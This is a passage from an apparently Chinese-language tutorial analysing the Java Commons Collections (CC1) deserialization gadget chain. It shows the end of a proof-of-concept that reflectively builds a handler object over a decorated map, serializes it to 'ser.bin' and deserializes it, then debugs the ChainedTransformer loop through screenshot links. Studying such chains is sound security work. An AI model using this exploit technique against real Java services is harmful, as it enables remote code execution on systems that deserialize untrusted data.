 ```java=
                Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
                constructor.setAccessible(true);



                Object o = constructor.newInstance(Target.class,decorateMap);
                serialize(o);
                unserialize("ser.bin");




        }



public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        }
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();

        return obj;
        }
        }
```
**核心代码**：

![](https://i.imgur.com/tZD07at.png)


在 ChainedTransforme r的循坏中打断点分析一下

第一轮：

![](https://i.imgur.com/qOHn4Np.png)




第二轮：

![](https://i.imgur.com/5w7biRC.png)

![](https://i.imgur.com/SFjEGPQ.png)




第三轮：

![](https://i.imgur.com/E8Cz3AS.png)
